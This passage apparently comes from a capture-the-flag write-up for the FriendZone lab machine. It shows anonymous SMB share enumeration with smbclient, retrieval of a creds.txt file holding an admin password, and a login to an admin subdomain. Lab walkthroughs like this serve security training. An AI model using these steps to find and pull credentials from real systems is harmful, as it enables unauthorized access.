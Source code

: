 But we do not have any credentials to log in. From the machine info, we see that credentials are stored in a SMB share that has public access. Let's enumerate the shares and find these credentials:

```bash
$ smbclient --no-pass -L 10.129.35.124

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        Files           Disk      FriendZone Samba Server Files /etc/Files
        general         Disk      FriendZone Samba Server Files
        Development     Disk      FriendZone Samba Server Files
        IPC$            IPC       IPC Service (FriendZone server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
```

And after connecting to `Development` and `general`, we find the credentials in the latter:

```bash
$ smbclient --no-pass //10.129.35.124/general
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Wed Jan 16 20:10:51 2019
  ..                                  D        0  Tue Sep 13 14:56:24 2022
  creds.txt                           N       57  Tue Oct  9 23:52:42 2018

                3545824 blocks of size 1024. 1540052 blocks available
smb: \> get creds.txt
getting file \creds.txt of size 57 as creds.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \> exit
$ cat creds.txt
creds for the admin THING:

admin:WORKWORKHhallelujah@#
```

After that, we rush back to the `administrator1` subdomain to successfully log in. Now, we have access to this endpoint:

<img src="../figs/fz2.png" alt="admin dashboard">
